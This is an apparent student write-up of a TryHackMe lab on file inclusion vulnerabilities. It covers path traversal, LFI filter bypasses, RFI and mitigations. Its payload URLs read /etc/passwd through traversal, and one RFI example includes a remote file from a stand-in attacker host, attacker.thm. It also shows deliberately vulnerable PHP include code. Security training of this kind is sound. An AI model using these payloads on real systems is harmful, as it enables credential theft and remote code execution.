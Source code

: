 # 🛡️ File Inclusion Vulnerabilities – TryHackMe Room Report

---

## 📌 1. Introduction to File Inclusion

File inclusion vulnerabilities occur when a web application allows user input to specify files to include or load without proper validation. This flaw can lead to \*\*Local File Inclusion (LFI)\*\*, \*\*Remote File Inclusion (RFI)\*\*, and \*\*Directory Traversal\*\* attacks.

Web applications often use parameters in URLs to specify files, such as:

```url
http://webapp.thm/get.php?file=userCV.pdf
If the application does not properly sanitize this input, attackers can manipulate it to read sensitive files or execute malicious code.
```
🚪 2. Path Traversal (Directory Traversal)
Path traversal enables attackers to access files outside the intended directories by using directory traversal sequences like ../. For example:
```
http://webapp.thm/get.php?file=../../../../etc/passwd
```
This payload attempts to access the Linux password file by moving up directories beyond the web root.

On Windows servers, attackers can use paths like:


http://webapp.thm/get.php?file=../../../../boot.ini
Common sensitive files targeted during enumeration include:

| 📁 File Path                  | 📝 Description                  |
| ----------------------------- | ------------------------------- |
| `/etc/passwd`                 | User account information        |
| `/etc/shadow`                 | Password hashes                 |
| `/root/.bash_history`         | Root user's command history     |
| `/var/log/apache2/access.log` | Apache access logs              |
| `C:\boot.ini`                 | Windows boot configuration file |

🔒 3. Local File Inclusion (LFI)
LFI allows attackers to include and execute files on the local server by exploiting improper input validation, especially with PHP functions such as include() or require(). Examples:

Without directory restriction:
php
Copy
Edit
<?php
include($_GET['lang']);
?>
Attackers can include any file like:

url
Copy
Edit
http://webapp.thm/get.php?file=/etc/passwd
With directory restriction:
php
Copy
Edit
<?php
include("languages/" . $_GET['lang']);
?>
Attackers can use directory traversal:

url
Copy
Edit
http://webapp.thm/index.php?lang=../../../../etc/passwd
🎯 4. Advanced LFI Bypass Techniques
Error message analysis:
Error messages reveal the full path and appended file extension (.php).

Null Byte Injection (%00):
In older PHP versions, %00 can terminate strings to bypass forced .php suffixes.

Keyword filtering bypass:
Using tricks like adding /./ or /../ to bypass filters.

Double dots with extra dots:
Using ....// to evade filters replacing ../.

Forced directory inclusion bypass:
Including the forced directory path in the payload to traverse out.

🌐 5. Remote File Inclusion (RFI)
RFI enables attackers to include files hosted on remote servers, leading to remote code execution. This requires PHP’s allow\_url\_fopen to be enabled.

Attack steps:
Host a malicious PHP file remotely.

Inject the remote URL as input to the vulnerable include function.

The target server fetches and executes the remote file.

Example:

url
Copy
Edit
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
Where cmd.txt contains:

php
Copy
Edit
<?php echo "Hello THM"; ?>
🛡️ 6. Prevention and Mitigation
To defend against file inclusion vulnerabilities:

✅ Keep systems and frameworks updated.

✅ Disable PHP error display in production.

✅ Use a Web Application Firewall (WAF).

✅ Disable risky PHP settings (allow\_url\_fopen, allow\_url\_include).

✅ Restrict allowed protocols and wrappers.

✅ Never trust user input — validate and sanitize thoroughly.

✅ Implement whitelisting of allowed files and directories.

📚 Summary
File inclusion vulnerabilities pose severe risks such as data leakage, remote code execution, and denial of service. Understanding various techniques for exploitation and bypassing protections helps developers and security professionals harden web applications effectively.